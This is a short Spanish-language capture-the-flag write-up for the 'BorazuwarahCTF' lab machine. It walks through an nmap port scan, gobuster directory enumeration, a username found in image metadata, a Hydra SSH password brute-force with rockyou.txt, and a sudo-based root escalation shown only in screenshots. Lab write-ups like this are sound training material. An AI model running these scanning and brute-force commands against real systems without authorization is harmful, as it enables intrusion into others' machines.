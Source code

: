 # BorazuwarahCTF

## 0. HERRAMIENTAS

- Hydra
- metasploit

## 1. ENUMERACION

Realizamos un escaneo de puertos

```jsx
sudo nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2
```

Vemos los puertos abiertos:

- 22
- 80

![image.png](BorazuwarahCTF%20d817f7129aff41a9b8f0b269d53dd510/image.png)

La url muestra la siguiente imagen

![image.png](BorazuwarahCTF%20d817f7129aff41a9b8f0b269d53dd510/image%201.png)

Guardamos la imagen y pasamos a realizar una búsqueda de directorios

```jsx
sudo gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u '[http://172.17.0.2](http://172.17.0.2/)' -x 'html,txt,php,py,jpeg'
```

![image.png](BorazuwarahCTF%20d817f7129aff41a9b8f0b269d53dd510/image%202.png)

Solo aparece la imagen que hemos encontrado antes

![image.png](BorazuwarahCTF%20d817f7129aff41a9b8f0b269d53dd510/image%203.png)

Analizando metadatos de la imagen vemos que hay oculto un usuario

![image.png](BorazuwarahCTF%20d817f7129aff41a9b8f0b269d53dd510/image%204.png)

## 2. COMPROMISO DEL ENTORNO

Utilizaremos Hydra para intentar de obtener la contraseña por fuerza bruta

```jsx
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

Encontramos la contraseña

![image.png](BorazuwarahCTF%20d817f7129aff41a9b8f0b269d53dd510/image%205.png)

Accedemos por ssh

![image.png](BorazuwarahCTF%20d817f7129aff41a9b8f0b269d53dd510/image%206.png)

## 3. ESCALACION DE PRIVILEGIOS

Vemos que se puede ejecutar desde cualquier usuario y sin contraseña el /bin/bash

![image.png](BorazuwarahCTF%20d817f7129aff41a9b8f0b269d53dd510/image%207.png)

![image.png](BorazuwarahCTF%20d817f7129aff41a9b8f0b269d53dd510/image%208.png)